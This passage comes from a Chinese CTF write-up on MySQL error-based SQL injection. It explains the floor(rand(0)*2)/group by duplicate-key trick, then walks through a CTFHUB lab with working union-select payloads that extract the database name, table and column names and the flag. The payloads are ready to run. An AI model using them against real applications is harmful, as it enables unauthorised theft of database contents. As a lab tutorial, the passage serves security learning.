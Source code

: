 **再次计算**`**floor(rand(0)*2)**`**，返回0【第4次计算】，但是虚拟表中没有该key，于是又需要插入新分组，然后**`**floor(rand(0)*2)**`**又被触发【第5次计算】返回1进行插入，但是现在key为1虚拟表中已经拥有，插入时会发生报错：**

```c
mysql> select count(*) from users group by floor(rand(0)*2);
ERROR 1062 (23000): Duplicate entry '1' for key '<group_key>'
mysql>
```

> **发生根本错误的原因是rand的重新执行，总之报错需要count(*)，rand()、group by这三者同时存在，缺一不可。**
>

# 实战
这里使用CTFHUB的报错注入进行说明。输入`1'`之后报错：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1642237909498-988ff789-4850-43e8-b5d7-d79ed4c6e6a9.png)

`select * from news where id=1'`，由于这里查询语句已经知道，查询的内容为news表中的数据，显然里面没有我们要找flag，所以现在直接查询当前的数据库：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1642238550778-70c8a714-a5aa-4b0d-8c96-d4c435f6f1dc.png)

`?id=1 union select count(*) ,concat(database(),0x26,floor(rand(0)*2)) as x from information_schema.columns group by x;`

这里的concat会将database和报错一起带出，所以很轻松知道当前的数据库名称为sqli，然后查询数据库中的表：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1642238889774-d3e6503b-f3e2-4f90-a089-6eed0a2096af.png)

`?id=1 union select count(*),concat((select table_name from information_schema.tables where table_schema='sqli' limit 0,1),0x26,floor(rand(0)*2)) as x from information_schema.columns group by x`，和之前相同这里使用了`information_schema`的特性找到当前数据库sqli下有一个flag表。

然后查列名，名字也是flag：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1642239111317-2f9830fa-b7a9-4a48-a500-44b472121e53.png)

`?id=1 union select count(*),concat((select column_name from information_schema.columns where table_schema='sqli' and table_name='flag' limit 0,1),0x26,floor(rand(0)*2)) as x from information_schema.columns group by x`。

最后得到flag即可：

![](https://cdn.nlark.com/yuque/0/2022/png/574026/1642239175961-b271c03e-fd7f-4a9a-9ddb-4957aa6e2bd7.png)

`ctfhub{657a71f4322a081e4c6dad05}`。















